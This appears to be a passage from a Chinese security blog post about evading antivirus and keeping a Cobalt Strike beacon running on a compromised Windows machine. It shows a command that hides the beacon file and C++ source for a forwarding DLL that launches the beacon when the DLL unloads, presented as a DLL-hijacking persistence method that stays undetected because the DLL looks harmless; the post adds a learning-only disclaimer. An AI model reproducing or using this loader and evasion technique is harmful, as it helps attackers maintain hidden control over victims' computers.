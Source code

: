Ps：这种直接生成的dll不免杀，实战中需要做免杀处理。

### dll加载免杀马上线

首先给这个文件加一个隐藏属性:

  * 

    
    
    attrib +h beacon.exe

接着采用DLL去加载这个木马，

代码如下：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include "pch.h"#include "windows.h"//开始转发，将函数方法转发//导出函数#pragma comment(linker,"/EXPORT:add=testdll.add,@1")#pragma commnet(linker,"/EXPORT:message=testdll.message,@2")//入口函数BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved){    if (dwReason == DLL_PROCESS_ATTACH)    {        DisableThreadLibraryCalls(hModule);    }    else if (dwReason == DLL_PROCESS_DETACH)    {        STARTUPINFO si = { sizeof(si) };        PROCESS_INFORMATION pi;        CreateProcess(TEXT("path\\beacon.exe"), NULL, NULL, NULL, false, 0, NULL, NULL, &si, &pi);    }  
        return TRUE;}

然后后面直接去尝试加载就行了,程序执行完的时候(`DLL_PROCESS_DETACH`),会自动加载我们的cs马。

说一下这种方案的好处,就是DLL根本没有恶意操作,所以肯定会免杀，但是你的木马文件要做好免杀，这种思路主要应用于通过劫持一些程序的DLL,然后实现隐蔽的重启上线，也就是权限持续维持，单单杀启动项对DLL进行权限维持的方式来说是没有用的。

参考文章：https://www.anquanke.com/post/id/232891#h2-12  

  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825172524.png)

END

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825172524.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825172526.png)

  

 **看完记得点赞，关注哟，爱您！**

  
 **请严格遵守网络安全法相关条例！此分享主要用于学习，切勿走上违法犯罪的不归路，一切后果自付！**

  

  
关注此公众号，回复"Gamma"关键字免费领取一套网络安全视频以及相关书籍，公众号内还有收集的常用工具！  
**在看你就赞赞我！**![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825172527.png)![]()![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825172528.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825172529.png)
扫码关注我们![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825172529.png)

